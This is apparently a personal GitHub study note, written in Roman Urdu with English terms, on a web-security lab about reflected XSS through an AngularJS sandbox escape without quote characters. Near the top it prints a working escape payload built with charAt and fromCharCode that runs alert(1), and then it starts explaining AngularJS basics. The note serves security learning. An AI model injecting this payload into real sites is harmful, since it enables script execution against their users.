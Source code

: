 # All Important About This Lab
---

### 🧾 **GitHub Note: Lab - Reflected XSS with AngularJS Sandbox Escape Without Strings**

---

### 🧠 **Lab Summary:**

**Lab Name:** Reflected XSS with AngularJS sandbox escape without strings
**Goal:** AngularJS ke sandbox ko bypass kar ke `alert(1)` run karna — bina single `'` ya double `"` quotes use kiye
**Payload:**

```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

---

### 📚 **Concepts Covered in This Lab:**

* AngularJS kya hota hai
* Sandbox kya hota hai
* Sandbox escape ka matlab kya hai
* `charAt` aur `fromCharCode` ka role
* Quotes bypass karnay ka tariqa
* AngularJS filter abuse
* Reflected vs DOM XSS
* AngularJS version check karnay ka method
* Browser console aur Burp decoder ka use

---

### 🔹 **AngularJS kya hota hai?**

AngularJS aik JavaScript framework hai jo web apps ko **dynamic** banata hai.
Yeh client-side code chalata hai aur expressions jese `{{2 + 2}}` ko run karta hai bina page refresh ke.

**Example:**

```html
<p>{{ 2 + 2 }}</p>  <!-- Output: 4 -->
```

AngularJS browser mein JavaScript code evaluate karta hai, isliye agar validation na ho toh XSS ke liye vulnerable ho sakta hai.

---

### 🔹 **AngularJS version kaise check karein?**
